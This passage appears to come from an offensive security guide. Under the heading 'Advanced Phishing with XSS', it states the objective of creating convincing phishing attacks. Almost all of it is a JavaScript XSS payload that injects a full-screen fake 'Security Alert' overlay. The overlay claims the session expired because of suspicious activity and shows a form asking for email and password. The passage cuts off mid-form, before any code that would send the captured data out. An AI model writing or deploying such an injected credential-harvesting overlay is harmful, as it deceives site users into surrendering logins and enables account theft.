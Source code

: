 ### Scenario 2: Advanced Phishing with XSS

**Objective**: Create convincing phishing attacks using XSS injection

```javascript
// Advanced Phishing XSS Payload
const advancedPhishingPayload = `
<script>
(function() {
    // Wait for page to load
    if (document.readyState !== 'complete') {
        window.addEventListener('load', arguments.callee);
        return;
    }
    
    // Create convincing phishing overlay
    const createPhishingOverlay = () => {
        // Create backdrop
        const backdrop = document.createElement('div');
        backdrop.style.cssText = \`
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            background: rgba(0,0,0,0.8);
            z-index: 999999;
            display: flex;
            justify-content: center;
            align-items: center;
        \`;
        
        // Create phishing modal
        const modal = document.createElement('div');
        modal.style.cssText = \`
            background: white;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 4px 20px rgba(0,0,0,0.3);
            max-width: 400px;
            width: 90%;
            text-align: center;
            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
        \`;
        
        modal.innerHTML = \`
            <div style="color: #d32f2f; font-size: 48px; margin-bottom: 20px;">⚠️</div>
            <h2 style="color: #333; margin-bottom: 15px;">Security Alert</h2>
            <p style="color: #666; margin-bottom: 25px; line-height: 1.5;">
                Your session has expired due to suspicious activity. 
                Please re-enter your credentials to continue.
            </p>
            <form id="phishing-form" style="text-align: left;">
                <div style="margin-bottom: 15px;">
                    <label style="display: block; margin-bottom: 5px; color: #333; font-weight: 500;">Email:</label>
                    <input type="email" id="phish-email" required 
                           style="width: 100%; padding: 12px; border: 1px solid #ddd; border-radius: 4px; font-size: 14px;">
                </div>
                <div style="margin-bottom: 20px;">
                    <label style="display: block; margin-bottom: 5px; color: #333; font-weight: 500;">Password:</label>
                    <input type="password" id="phish-password" required
```